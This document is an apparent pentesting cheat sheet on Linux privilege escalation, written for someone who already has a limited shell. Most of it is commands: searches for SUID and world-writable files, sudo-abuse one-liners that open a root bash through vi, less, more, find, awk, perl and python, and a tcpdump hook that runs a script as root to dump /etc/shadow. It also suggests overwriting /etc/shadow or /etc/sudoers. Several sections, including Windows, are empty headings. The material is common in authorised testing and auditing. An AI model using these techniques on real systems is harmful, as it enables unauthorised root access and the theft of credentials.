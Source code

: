 # Privilege Escalation

So you have a limited shell on the machine. But it is limited. For example: 

You can't hide very effectivly. 
You can't bind ports below 1024.
Read and write any file
Persist easily between reboots.

These are all things we want to be able to do.
Watch this video!
http://www.irongeek.com/i.php?page=videos/bsidesaugusta2016/its-too-funky-in-here04-linux-privilege-escalation-for-fun-profit-and-all-around-mischief-jake-williams

http://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections

http://netsec.ws/?p=309

**Don't use binary exploits if you can avoid it. If you use it it might crash the machine. So binary exploits should be the last resort. Always use a simpler priv-esc if you can. They can also produce a lot of stuff in the sys.log**

## Linux

### Weak or reused passwords

If there is a web-server, check the connection to the database. Try that password. Also log into the database with the user you found. Is there a admin-account that might be reusing passwords?

Config-files
postfix
newsbeauter

### Configuration mistakes

#### Programs running as root
**Web-server**
Running as root

**Mysql**

#### Bad path configuration
Putting . in the path

#### **Cronjob** 
With privileges running script that are editable for other users. 

#### World writable scripts invoked as root
World/user writable scripts that are invoked by root can me rewritten to escalate privileges.

Also check scripts that are called by these scripts.

```
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```


#### World/user writable binaries

#### Weak permissions on LD_preload

#### Homemade crappy suid programs
**SUID files**

SUID is a bit that you can set on a file. If you run a binary the binary is run as the user who is running it. But if the binary has the SUID-bit it will be run as the owner of that binary. This can be abused.

Here is how you find SUID files:
```
find / -perm -u=s -type f 2>/dev/null
```

Run ltrace on them to see what they do.

#### Setuid/setuig

SUID is a bit that you can set on a file. If you run a binary the binary is run as the user who is running it. But if the binary has the SUID-bit it will be run as the owner of that binary. This can be abused.
Any editor with a setudi/setuig can be abused.

**nmap**
SUID on nmap.

Find them

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

### Abusing sudo-rights

If you have a shell that has limited sudo programs you might still be able to use it. Any program that can write or overwrite can be used. If you have `cp` you can overwrite `/etc/shadow` or `/etc/sudoers`. 
**ht**
The text/binary-editor HT running as sudo

**nano**

**vi/vim**
With vi it is even easier. Just open vi
```
sudo vi
:shell

:set shell=/bin/bash:shell	
:!bash
```
And you have shell.

**less**
From less you can go into vi, and then into a shell
```
sudo less /etc/shadow
v
:shell
```

**more**
You need to run more on a file that is bigger than your screen.
```
sudo more /home/pelle/myfile
!/bin/bash
```

**cp**
Copy and overwrite /etc/shadow

**mv**
Overwrite /etc/shadow or /etc/sudoers

**find**

```
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 
```

**python/perl/ruby/lua/etc**

```
sudo perl
exec "/bin/bash";
ctr-d
```

```
sudo python
import os
os.system("/bin/bash")
```

**nmap**

**awk**

```
awk 'BEGIN {system("/bin/bash")}'
```

**bash**

**sh**

**man**

**nc**

**netcat**

**ruby**

**lua**

**irb** 

**tcpdump**

https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/
```
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

### Software vulnerabilites

Software vulnerabilites can lead to priv-esc, like vulnerabiliteis in:
- Kernel
```
uname -a
/etc/issue*
/etc/release
```

**Tools**
```
# Programming tools
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc

#Upload tools
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
```



#### Binary expoits against root owned binaries
- sudo
- Chrootkit


## Windows

## References
https://www.trustwave.com/Resources/SpiderLabs-Blog/My-5-Top-Ways-to-Escalate-Privileges/